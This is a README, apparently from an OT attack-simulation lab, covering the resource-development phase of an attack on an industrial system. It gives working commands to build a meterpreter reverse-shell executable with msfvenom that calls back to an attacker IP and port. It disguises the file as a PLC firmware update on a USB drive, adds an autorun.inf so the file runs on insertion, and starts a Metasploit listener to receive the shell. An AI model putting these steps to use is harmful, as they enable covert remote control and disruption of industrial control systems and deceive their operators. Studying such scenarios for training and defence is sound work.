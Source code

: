 # Resource Development

In this phase, the attacker develops a malicious program to be delivered via a USB thumb drive. The USB will be disguised as a legitimate firmware update for the target OT system, obtained through the information gathered during the **Reconnaissance** phase.

- **MITRE ATT&CK Technique**: [T1587.001 - Develop Capabilities: Malware](https://attack.mitre.org/techniques/T1587/001/)

## Objective

The goal is to craft a malicious executable that will run automatically when inserted into the target OT system, allowing the attacker to gain control or disrupt operations.

## Steps to Execute Resource Development

### 1. Create a Malicious Payload Using `msfvenom`

The malicious program can be generated using **Metasploit**’s `msfvenom` tool. This payload will be disguised as a firmware update and executed when inserted into the OT system.

#### Command to Generate a Payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.51.10 LPORT=4444 -f exe -o firmware_update.exe
```

- LHOST: IP address of the attacker's machine (M1) where the reverse shell will connect.
- LPORT: Port to listen for the reverse shell connection.
- -f exe: Specifies the format of the output file as a Windows executable.
- firmware_update.exe: The name of the malicious file disguised as a firmware update.


### 2. Load the Payload onto a USB Thumb Drive
Once the malicious executable is created, it needs to be placed on a USB thumb drive:

- Insert the USB drive into the attacker's machine (M1).

- Copy the malicious payload onto the drive:
```
cp firmware_update.exe /media/usb-drive/
```
- Rename the file to something that looks legitimate, such as:
```
mv /media/usb-drive/firmware_update.exe /media/usb-drive/PLC_Firmware_Update.exe
```

### 3. Configure Autorun (Optional)
For systems that still support autorun (e.g., legacy Windows-based OT workstations), you can create an autorun.inf file to automatically execute the malicious file when the USB drive is inserted:

- Create an autorun.inf file on the USB drive:
```
echo "[autorun]" > /media/usb-drive/autorun.inf
echo "open=PLC_Firmware_Update.exe" >> /media/usb-drive/autorun.inf
```
- Save and safely eject the USB drive.

### 4. Test the Malicious Payload
Test the payload to ensure it works as expected by running the PLC_Firmware_Update.exe on a virtual machine or test system. You can listen for the reverse shell on the attacker's machine (M1) using Metasploit:

#### Set up a Metasploit Listener:
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.51.10
set LPORT 4444
exploit
```
When the payload is executed, the attacker will gain a reverse shell into the system.

## Next Steps
Once the malicious USB drive is prepared, it will be delivered to the target via social engineering in the Initial Access phase.

## Summary
In the Resource Development (T1587.001) phase, the attacker creates a malicious program that will be loaded onto a USB thumb drive, disguised as a legitimate firmware update. This payload is designed to provide the attacker with access to the OT system when inserted and executed by the target.


```
This `README.md` outlines how the attacker prepares the malicious payload and USB drive during the **Resource Development** phase of the attack.
```
